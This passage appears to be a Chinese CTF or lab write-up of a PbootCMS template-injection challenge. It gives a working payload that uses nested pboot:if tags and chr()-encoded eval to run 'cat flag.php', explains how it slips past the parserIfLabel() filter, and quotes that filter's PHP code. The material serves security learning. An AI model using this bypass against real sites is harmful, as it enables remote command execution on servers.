 ```shell
{pbootpbootpboot:if:if:if((eval(chr(0x73).chr(0x79).chr(0x73).chr(0x74).chr(0x65).chr(0x6d).chr(0x28).chr(0x22).chr(0x63).chr(0x61).chr(0x74).chr(0x20).chr(0x66).chr(0x6c).chr(0x61).chr(0x67).chr(0x2e).chr(0x70).chr(0x68).chr(0x70).chr(0x22).chr(0x29).chr(0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```

![build_bug2_error2_224](../img/build_bug2_error2_224.jpg)

解决思路：仔细观察「parserIfLabel() 函数」中正则表达式及白名单的过滤情况，此函数过滤了 「base64_decode」，使用「chr() 函数」拼接时要注意在「chr」和括号间 **插入空格** ，而 **eval() 函数** 是 PHP 语言中的常用函数，它表示「将字符串当成 PHP 代码来计算」，非常基本也至关重要。

由此可见 [PHP](https://www.runoob.com/php/php-tutorial.html) 和 [正则表达式](https://www.runoob.com/regexp/regexp-tutorial.html) 等语法知识需要在不断练习中才能熟练掌握。

```php
// 解码条件字符串
$matches[1][$i] = decode_string($matches[1][$i]);
                
// 带有函数的条件语句进行安全校验
if (preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)) {
	foreach ($matches2[1] as $value) {
		if ((function_exists($value) || preg_match('/^eval$/i', $value)) && ! in_array($value, $white_fun)) {
			$danger = true;
			break;
		}
  }
}
```

## 参考资料

- [MacOS Docker 安装](https://www.runoob.com/docker/macos-docker-install.html)
- [Overview of docker compose CLI](https://docs.docker.com/compose/reference/)
